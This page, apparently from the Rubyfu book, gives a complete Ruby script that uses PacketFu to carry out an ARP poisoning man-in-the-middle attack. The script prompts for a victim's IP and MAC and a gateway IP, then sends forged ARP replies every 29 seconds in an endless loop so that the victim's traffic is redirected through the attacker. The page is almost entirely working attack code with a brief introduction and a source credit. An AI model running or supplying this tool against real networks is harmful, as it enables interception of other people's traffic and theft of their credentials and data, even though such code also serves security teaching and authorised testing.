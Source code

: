 # Man in the Middle Attack \(MiTM\)

Example of a more elaborate MITM attack using ARP Poisoning with PacketFU and socket using source code in this book as base.

```ruby
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac  # your MAC Address
     x.eth_daddr = vmac  # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip # Router IP Address
     x.arp_daddr_ip=  vip # Victim IP Address
     x.arp_opcode = 2 # ARP Reply Code
   while true do # Infinite Loop created
     x.to_w(int_name) # Put Packet to wire  interface
      sleep(29) # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this

unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

#select interface to use and start setup

interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
end
```

Source: [Ruby-MiTM](https://github.com/ChrisFernandez/ruby-mitm "Ruby-mitm") and Rubyfu [ARP Spoofing topic](/module_0x3__network_kung_fu/arp_spoofing.md).

